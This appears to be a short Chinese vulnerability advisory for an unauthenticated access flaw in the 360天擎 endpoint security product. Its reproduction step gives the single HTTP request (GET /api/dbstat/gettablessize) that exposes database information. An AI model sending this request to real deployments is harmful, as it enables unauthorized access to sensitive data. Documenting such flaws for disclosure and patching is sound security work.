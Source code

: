 # 360天擎 gettablessize 数据库信息泄露漏洞

# 360天擎 越权访问/数据库信息泄露

## 漏洞描述

360天擎 存在未授权越权访问，造成敏感信息泄露

## 漏洞影响

```
天擎
```

## 漏洞复现

```plain
GET /api/dbstat/gettablessize HTTP/1.1
```

![image-20220209200552429](/images/202202092005904.png)


